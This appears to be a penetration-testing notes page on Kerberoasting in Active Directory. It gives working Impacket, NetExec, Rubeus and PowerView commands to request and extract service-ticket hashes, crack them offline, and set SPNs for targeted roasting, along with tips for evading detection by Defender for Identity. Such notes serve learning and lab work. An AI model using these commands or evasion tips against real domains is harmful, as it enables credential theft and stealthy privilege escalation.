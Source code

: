 # Kerberoasting

{% hint style="info" %}
Typically, **Kerberoasting happens after compromising a domain user**. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to **perform this attack with an account susceptible to** [ASREPRoast](as-reproasting.md)! For an example of this attack vector check [Rebound](../../../boxes/insane/rebound.md#kerberoasting).
{% endhint %}

{% hint style="warning" %}
**OPSEC:** Kerberoasting is a very silent attack; only one logged entry is created when requesting the ST (`4769`). There are typically thousands of those events on a DC per day.
{% endhint %}

Kerberoasting is **an attack on the Service Ticket (ST) and Service Principal Names (SPNs)**. SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

{% hint style="danger" %}
Accounts like `krbtgt`, machine accounts (e.g. `dc01$`), and (g)MSAs are usually resistant due to complex, long passwords.
{% endhint %}

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Tools

{% tabs %}
{% tab title="Impacket" %}
Find and attack user accounts used as service accounts with [Impacket](kerberoasting.md#impacket):

{% code overflow="wrap" %}
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 <domain>/<user> -outputfile <fileName>

# Kerberoast an account susceptible to ASREPRoasting
sudo impacket-GetUserSPNs -no-preauth jjones -usersfile domain_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```
{% endtab %}

{% tab title="nxc" %}
Find and attack user accounts used as service accounts with [NetExec](../ad-tools/netexec.md):

```bash
# Kerberoast with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```

For an example of Kerberoasting using NetExec see [Active](https://x7331.gitbook.io/boxes/boxes/easy/active#eop-via-kerberoasting).
{% endtab %}

{% tab title="Rubeus" %}
{% hint style="warning" %}
**OPSEC**: To evade detection mechanisms that flag Kerberos encryption downgrades, like MDI, focus on service accounts that are configured to support only `RC4-HMAC`. Requesting a service ticket for them using RC4 appears legitimate and does not trigger downgrade alerts. In addition, try to Kerberoast a single user at a time as this is not seen as an anomaly and won't trigger alerts. \
\
E.g. `.\Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec`&#x20;
{% endhint %}

Find user accounts used as service accounts with [Rubeus](../ad-tools/rubeus.md):

```powershell
# List Kerberoastable accounts
.\Rubeus.exe kerberoast /stats
```

Execute the attack:

{% code overflow="wrap" %}
```powershell
# Kerberoast all SPNs and extract TGS-REP hashes
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /format:hashcat /nowrap

# Kerberoast a single user
.\Rubeus.exe kerberoast /user:svcadmin /simple

# Kerberoast the target account using explicit credentials
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

For an example of Kerberoasting using Rubeus see [Sizzle](https://x7331.gitbook.io/boxes/boxes/insane/sizzle#path-to-victory).
{% endtab %}

{% tab title="PowerView" %}
Find user accounts used as service accounts with [PowerView](../ad-tools/powerview.md):

```powershell
# Enumerate SPNs
Get-DomainUser * -SPN | select samaccountname,serviceprincipalname
```

Execute the attack:

{% code overflow="wrap" %}
```powershell
# Kerberoast the enumerated accounts
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

# Kerberoast the target account
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Kerberoast the target account and extract the hash
Get-DomainUser -Identity svc_mssql | Get-DomainSPNTicket -Format Hashcat | ForEach-Object { $_.Hash -replace '\s+', '' }
```
{% endcode %}

Optionally, we can clear the SPNs of the target account:

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}

{% tab title="AD Module" %}
Find user accounts used as service accounts with the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2025-ps) module:

{% code overflow="wrap" %}
```powershell
# Enumerate SPNs with AD module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endcode %}
{% endtab %}
{% endtabs %}

The `krb5tgs` hashes can be cracked offline using [Hashcat](../../../tools/passwords/hashcat.md) or [JtR](../../../tools/passwords/john.md):

{% code overflow="wrap" %}
```bash
# Crack the hashes using Hashcat
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Crack the hashes using John the Ripper
.\john.exe --wordlist=<wordlist> hashes.kerberoast
```
{% endcode %}

## Targeted Kerberoast

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS.&#x20;

{% hint style="warning" %}
**OPSEC**: Clean up by removing the SPN afterwards.
{% endhint %}

{% tabs %}
{% tab title="Windows" %}
Set a SPN for the target user (must be unique for the forest) using PowerView or the ActiveDirectory module:

{% code overflow="wrap" %}
```powershell
# PowerView
Set-DomainObject -Identity <targetUser> -Set @{serviceprincipalname='<serviceName>/<randomString>'}

# AD module
Set-ADUser -Identity <targetUser> -ServicePrincipalNames @{Add='<serviceName>/<randomString>'}
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}
This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast):

```bash
targetedKerberoast.py -v -d <domain_FQDN> -u <user> -p <pass>
```
{% endtab %}
{% endtabs %}

## Resources

* An amazing demonstration of Kerberoasting ([video](https://www.youtube.com/watch?v=-3MxoxdzFNI))
* What `impacket-GetUserSPNs` does behind the scenes ([video](https://www.youtube.com/watch?v=xH5T9-m9QXw))
* Siegecast's lecture on Kerberoasting ([video](https://www.youtube.com/watch?v=Jaa2LmZaNeU))
* An in-depth adsecurity article about Kerberoasting ([article](https://adsecurity.org/?p=3458))
